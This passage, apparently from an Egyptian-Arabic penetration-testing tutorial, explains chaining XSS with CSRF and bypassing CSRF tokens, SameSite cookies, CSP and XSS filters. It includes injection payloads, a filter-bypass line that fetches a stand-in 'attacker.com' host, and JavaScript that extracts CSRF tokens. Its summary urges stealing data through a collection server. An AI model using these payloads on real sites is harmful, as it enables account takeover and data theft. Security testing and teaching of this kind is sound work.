#### **الخلاصة بالعامية**:
XSS زي السلاح السري اللي بيخليك تدخل الموقع وتعمل طلبات CSRF من جوه. ابحث عن ثغرة XSS في تعليقات أو حقول، وحقن كود JavaScript يغير باسوورد أو يسرق بيانات. لو فيه CSRF Token، استخدم XSS عشان تستخرجه. Burp وZAP هيسهلوا عليك، واعمل سيرفر يستقبل البيانات المسروقة.

---

### **3. تحليل الحمايات وتجاوزها**
المواقع الحديثة بتحط حمايات ضد XSS وCSRF، وكـ Pentester لازم تختبرها وتشوف إزاي تتجاوزها.

#### **أنواع الحمايات**:
1. **CSRF Token**:
   - رمز عشوائي بيترسل مع الطلبات الحساسة.
   - **التجاوز**: استخدم XSS لاستخراج الـ Token من الصفحة (زي المثال السابق).
2. **SameSite Cookies**:
   - Cookies معمولها `SameSite=Strict` بتمنع إرسالها مع طلبات خارجية.
   - **التجاوز**: XSS بتخليك تنفذ الطلب من داخل الموقع، فـ SameSite مش هيأثر.
3. **Content Security Policy (CSP)**:
   - CSP بيحدد مصادر السكربتات المسموح بيها.
   - **التجاوز**: ابحث عن إعدادات CSP ضعيفة (مثل `unsafe-inline`) أو مصادر خارجية موثوقة ممكن تستغلها.
4. **XSS Filtering**:
   - الموقع بيفلتر الإدخال عشان يمنع حقن JavaScript.
   - **التجاوز**: جرب طرق غير مباشرة زي:
     ```html
     <img src=x onerror=fetch('//attacker.com')>
     ```
     أو استخدم أحداث HTML تانية زي `onfocus` أو `onmouseover`.

#### **اختبار عملي**:
- **اختبار XSS**:
  - جرب حقن أكواد مختلفة في حقول الإدخال:
    ```html
    <script>alert(1)</script>
    <img src=x onerror=alert(1)>
    <svg onload=alert(1)>
    ```
  - لو نجح أي كود، يبقى فيه ثغرة.
- **اختبار CSRF Token**:
  - استخدم XSS لاستخراج الـ Token:
    ```javascript
    var token = document.querySelector('input[name="csrf_token"]').value;
    alert(token); // للاختبار
    ```
  - لو قدرت تستخرج الـ Token، نفّذ طلب CSRF.
- **اختبار CSP**:
  - فحّص رأس CSP في الاستجابة:
    ```bash
    curl -I https://example.com
    ```
  - لو لقيت `script-src 'unsafe-inline'`، جرب حقن `<script>` مباشرة.
- **اختبار SameSite Cookies**:
  - فحّص الـ Cookies في DevTools (F12).
  - لو `SameSite=Strict`، استخدم XSS عشان الطلب يطلع من داخل الموقع.

